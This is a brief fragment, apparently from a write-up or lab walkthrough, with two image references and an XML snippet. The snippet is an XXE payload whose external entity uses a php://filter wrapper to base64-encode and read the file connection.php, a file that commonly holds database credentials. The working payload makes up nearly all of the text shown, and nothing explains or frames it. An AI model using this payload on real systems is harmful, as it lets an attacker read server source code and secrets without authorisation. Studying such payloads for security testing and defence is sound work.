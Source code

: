 ![alt text](image-80.png)

![alt text](image-81.png)

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
```
